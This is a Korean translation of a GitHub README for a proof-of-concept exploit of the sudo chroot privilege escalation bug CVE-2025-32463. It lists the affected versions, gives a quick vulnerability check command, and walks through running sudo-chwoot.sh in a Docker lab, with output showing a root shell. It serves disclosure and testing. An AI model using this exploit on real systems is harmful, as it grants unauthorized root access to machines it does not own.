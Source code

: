 <translate-content># CVE-2025-32463 – sudo chroot ("chwoot") PoC

이 저장소는 `sudo`의 chroot 기능에서 발생하는 **CVE‑2025‑32463** 권한 상승 취약점을 시연하기 위한 최소 재현 환경을 제공합니다.
- 이 취약점은 [Rich Mirch](https://www.stratascale.com/team/rich-mirch) (X에서 [@0xm1rch](https://x.com/0xm1rch)) @ [Stratascale](https://www.stratascale.com/)에 의해 보고되었습니다.
- 원본 게시물: [Vulnerability Advisory: Sudo chroot Elevation of Privilege](https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot)
- NVD: [CVE-2025-32463](https://nvd.nist.gov/vuln/detail/CVE-2025-32463) (CVSS 9.3)

---

## 영향을 받는 버전

> 대부분의 리눅스 배포판에서 **sudo 1.9.14**부터 **1.9.17** (모든 p-리비전)까지 취약한 빌드가 영향을 받습니다.

보안 페이지
- [우분투](https://ubuntu.com/security/CVE-2025-32463) (CVSS 9.3)
- [레드햇](https://access.redhat.com/security/cve/cve-2025-32463) (CVSS 7.8)
- [수세](https://www.suse.com/security/cve/CVE-2025-32463.html) (CVSS 7.8)
- [데비안](https://security-tracker.debian.org/tracker/CVE-2025-32463)

---

## 내용

| 파일                | 용도                                                                                  |
| ------------------ | ---------------------------------------------------------------------------------- |
| **Dockerfile**     | 취약한 **sudo 1.9.16p2**와 빌드 도구가 포함된 우분투 24.04 이미지를 빌드합니다.     |
| **sudo‑chwoot.sh** | chroot 내에서 루트 셸을 생성하는 개념 증명 익스플로잇                                |
| **run.sh**         | 이미지 빌드(필요 시) 및 익스플로잇 컨테이너 실행을 돕는 스크립트                      |

---

## 빠른 취약점 점검</translate-content>
```bash
# Vulnerable sudo
pwn ~ $ sudo -R woot woot
sudo: woot: No such file or directory

# Patched sudo
pwn ~ $ sudo -R woot woot
[sudo] password for pwn:
sudo: you are not permitted to use the -R option with woot
```
## Docker 컨테이너에서 익스플로잇 테스트하기


```bash
# 1 – clone repo
$ git clone https://github.com/pr0v3rbs/CVE-2025-32463_chwoot.git
$ cd CVE-2025-32463_chwoot

# 2 – build and run Docker image (tagged "sudo-chwoot")
$ ./run.sh

# 3 – run exploit in container (runs root command directly or drops you into a root shell)
pwn@f722d9182d1f:~$ ./sudo-chwoot.sh id
woot!
uid=0(root) gid=0(root) groups=0(root),1001(pwn)
pwn@f722d9182d1f:~$ ./sudo-chwoot.sh
woot!
root@f722d9182d1f:/# id
uid=0(root) gid=0(root) groups=0(root),1001(pwn)
root@f722d9182d1f:/#
```
`run.sh`는 컨테이너가 종료될 때 스스로 정리되도록 Docker에 `--privileged`와 `--rm`을 전달합니다.

---

## 정리

작업이 끝나면 이미지를 제거하세요:


```bash
docker rmi sudo-chwoot
```
---

## 참고 문헌

- Stratascale CRU 취약점 공지: [취약점 권고: Sudo chroot 권한 상승](https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot)



---

Tranlated By [Open Ai Tx](https://github.com/OpenAiTx/OpenAiTx) | Last indexed: 2025-07-16

---